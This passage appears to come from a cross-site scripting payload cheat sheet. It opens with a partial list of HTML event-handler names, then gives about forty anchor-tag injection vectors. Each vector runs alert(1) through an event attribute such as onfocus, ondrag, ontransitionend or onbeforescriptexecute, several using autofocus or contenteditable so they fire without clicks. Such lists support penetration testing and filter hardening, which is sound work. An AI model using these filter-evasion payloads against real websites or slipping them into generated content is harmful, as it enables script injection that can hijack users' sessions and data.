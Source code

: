 onselectionchange
onselectstart
onshow
onstart
onsubmit
ontimeupdate
ontoggle
ontouchend
ontouchmove
ontouchstart
ontransitioncancel
ontransitionend
ontransitionrun
ontransitionstart
onunhandledrejection
onunload
onvolumechange
onwebkitanimationend
onwebkitanimationiteration
onwebkitanimationstart
onwebkittransitionend
onwheel

# Payloads

<a autofocus onfocus=alert(1) href></a>
<a autofocus onfocusin=alert(1) href></a>
<a draggable="true" ondrag="alert(1)" style=display:block>test</a>
<a draggable="true" ondragend="alert(1)" style=display:block>test</a>
<a draggable="true" ondragenter="alert(1)" style=display:block>test</a>
<a draggable="true" ondragleave="alert(1)" style=display:block>test</a>
<a draggable="true" ondragstart="alert(1)" style=display:block>test</a>
<a id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></a>
<a id=x tabindex=1 onfocus=alert(1)></a>
<a id=x tabindex=1 onfocusin=alert(1)></a>
<a onafterscriptexecute=alert(1)><script>1</script>
<a onbeforecopy="alert(1)" contenteditable>test</a>
<a onbeforecut="alert(1)" contenteditable>test</a>
<a onbeforescriptexecute=alert(1)><script>1</script>
<a onblur=alert(1) id=x tabindex=1 style=display:block>test</a><input value=clickme>
<a onclick="alert(1)" style=display:block>test</a>
<a oncontextmenu="alert(1)" style=display:block>test</a>
<a oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<a oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<a ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</a>
<a onfocusout=alert(1) id=x tabindex=1 style=display:block>test</a><input value=clickme>
<a onkeydown="alert(1)" contenteditable style=display:block>test</a>
<a onkeypress="alert(1)" contenteditable style=display:block>test</a>
<a onkeyup="alert(1)" contenteditable style=display:block>test</a>
<a onmousedown="alert(1)" style=display:block>test</a>
<a onmouseenter="alert(1)" style=display:block>test</a>
<a onmouseleave="alert(1)" style=display:block>test</a>
<a onmousemove="alert(1)" style=display:block>test</a>
<a onmouseout="alert(1)" style=display:block>test</a>
<a onmouseover="alert(1)" style=display:block>test</a>
<a onmouseup="alert(1)" style=display:block>test</a>
<a onmousewheel=alert(1) style=display:block>requires scrolling
<a onpaste="alert(1)" contenteditable>test</a>
<a onpointerdown=alert(1) style=display:block>XSS</a>
<a onpointerenter=alert(1) style=display:block>XSS</a>
<a onpointerleave=alert(1) style=display:block>XSS</a>
<a onpointermove=alert(1) style=display:block>XSS</a>
<a onpointerout=alert(1) style=display:block>XSS</a>